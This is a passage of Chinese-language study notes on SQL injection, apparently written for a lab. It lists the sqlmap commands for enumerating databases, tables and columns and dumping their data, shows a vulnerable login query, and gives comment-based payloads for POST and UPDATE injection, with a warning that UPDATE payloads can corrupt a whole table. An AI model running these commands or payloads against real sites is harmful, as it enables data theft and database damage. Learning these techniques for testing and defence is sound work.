 2.爆库

> 获取当前库名
>
> python sqlmap.py -u 网址 --current-db
>
> 获取所有库名
>
> python sqlmap.py -u 网址 --dbs

3.爆表

> python sqlmap.py -u 网址 -D security --tables

4.爆字段

> python sqlmap.py -u 网址 -D security -T users --cloums

5.爆数据

> python sqlmap.py -u 网址 -D 数据库 -T 数据表 --dump
>
> 获取指定字段数据内容
>
> python sqlmap.py -u 网址 -D 数据库 -T 数据表 -C 字段,字段 --dump

#### SQLMAP参数详解

https://app.yinxiang.com/fx/a2dd7f1f-f40a-4315-be93-7c4124073e67



## POST注入

**post注入就是参数以post形式提交且提交的参数与数据库有交互**

> 一般来说post表单 sql语句是这样：
>
> $sql = "select username,password from users where username = '$uname' and password = '$password' limit 0,1"

* 在登陆窗口判断闭合符和测试注入点的时候如果抛出错误

  **四种注入方式应该都可以**

* 在**登陆到用户后台修改密码**判断闭合符和测试注入点的时候如果抛出错误

  > 更新数据 sql语句是这样：
  >
  > update users set password='xxxx' where username='xxxx';
  >
  > 切记不能在password 后面加上注释符，
  >
  > update users set password='123456'#' where username='admin';

  **为避免这种情况，在真实的环境中导致数据库全部被篡改，在update注入时应慎用注释符，改为 and '1'='1 或or '1'='1 来构建闭合，同时也应慎用 sqlmap工具检测**

## header头注入
